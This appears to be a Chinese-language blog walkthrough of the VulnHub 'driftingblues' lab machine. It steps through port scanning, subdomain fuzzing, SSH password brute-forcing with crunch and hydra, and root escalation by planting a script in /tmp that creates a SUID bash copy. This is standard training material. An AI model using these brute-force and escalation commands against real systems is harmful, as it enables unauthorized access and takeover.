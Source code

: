 ```yaml
---
title: driftingblues VulnHub Walkthrough
date: 2021-10-12 16:24:52
categories:
- 渗透测试
tags:
- VulnHub
---
```


### 信息收集

#### 主机探测

```
arp-scan -l
```

![](https://i.loli.net/2021/10/12/OmNE8evaC2VQzZc.png)

#### 端口扫描

```
nmap -sC -sV -p- 192.168.62.172
```

![](https://i.loli.net/2021/10/12/9LTWKF2Irw3bBn4.png)

只开放了22和80端口，只能先访问80端口看一下有没有什么信息

![](https://i.loli.net/2021/10/12/3aTXBh7Au61snxe.png)

好像没什么东西，扫了目录也没什么信息

![](https://i.loli.net/2021/10/12/89FHODkPsiIKq3A.png)

右键查看源码，看到了一串疑似base64编码的字符串，到在线网站上转换一下，这应该是一个路径

![](https://i.loli.net/2021/10/12/F4z37IMB6HRTbN8.png)

访问一下，这个很明显了，到在线的ook!解密网站解密一下

![](https://i.loli.net/2021/10/12/f3Y5qmlHkdy4UO2.png)

是一个提示，应该是要修改host文件

![](https://i.loli.net/2021/10/12/2A8K7SIUoW3ZYCJ.png)

在主页上可以看到一个域名，尝试添加到host再访问

![](https://i.loli.net/2021/10/12/yrY1VEOUn7ZNJuf.png)

![](https://i.loli.net/2021/10/12/m8XTnM4pqJRSxYI.png)

重新扫目录还是没有发现，那就试试爆破子域名

```
wfuzz -u driftingblues.box -w /home/colin/文档/fuzzDicts/subdomainDicts/main.txt -H "Host:FUZZ.driftingblues.box" --hw 570
```

![](https://i.loli.net/2021/10/12/IhLMdEA75BqWY8J.png)

直接访问解析不了，需要再修改一下host

![](https://i.loli.net/2021/10/12/9HeMXPp4nxUc5T3.png)

访问一下

![](https://i.loli.net/2021/10/12/rQZJMdo6itON41X.png)

再扫一次目录，发现有robots.txt

![](https://i.loli.net/2021/10/12/h8NRS47k5FwcyQP.png)

访问一下，看到给了一些路径

![](https://i.loli.net/2021/10/12/hqH8zidLMpy2B4b.png)

查看ssh_cred.txt，给了提示

![](https://i.loli.net/2021/10/12/lO2CwcisZyFhX7Q.png)

### 漏洞利用

ssh登录的密码是`1mw4ckyyucky*`，目前还缺一位数字，一共十个可能的密码，先生成一下

```
crunch 13 13 -t 1mw4ckyyucky% > pass
```

看一下我们生成的密码集合

![](https://i.loli.net/2021/10/12/LKM18PeBjnQ3EmN.png)

接下来尝试爆破ssh登录密码，根据前面访问`test.driftingblues.box`的提示，用户名应该是`eric`

```
hydra -l eric -P pass ssh://192.168.62.172
```

![](https://i.loli.net/2021/10/12/DEn1wX8sbvx3KPy.png)

找到密码了，直接登录ssh

![](https://i.loli.net/2021/10/12/tR6dFViCTaYM3gk.png)

直接获取第一个flag

<img src="https://i.loli.net/2021/10/12/R6CWvfVqErO29Az.png" style="zoom:67%;" />

### 提权

```
uname -a
find / -perm -u=s -type f 2>/dev/null
getcap -r  / 2>/dev/null
```

看了一遍都没有什么发现，只能看一看有没有什么其他可以利用的地方

在备份目录下有个backup.sh，看一下内容

![](https://i.loli.net/2021/10/12/y8jaFm2eGTYUiXo.png)

有一个sudo执行的/tmp/emergency，但是tmp目录下是没有这个文件的，所以应该通过新建文件来提权

思路是这样，但还是不知道怎么操作，只能看看别人的walkthrough了

```
echo 'cp /bin/bash /tmp/getroot; chmod +s /tmp/getroot' > /tmp/emergency
#系统执行backup.up，以sudo执行emergency，会将/bin/bash复制到tmp，并赋予执行权限
chmod +x emergency
./getroot -p
```

![](https://i.loli.net/2021/10/12/jWGusDP8aTNwCgS.png)

![](https://i.loli.net/2021/10/12/lRnyG9txiQKuYW5.png)

现在可以获取第二个flag了

<img src="https://i.loli.net/2021/10/12/bWHGwDhZx1cTntf.png" style="zoom:67%;" />

> 参考：
>
> https://blog.csdn.net/weixin_45922278/article/details/115277255
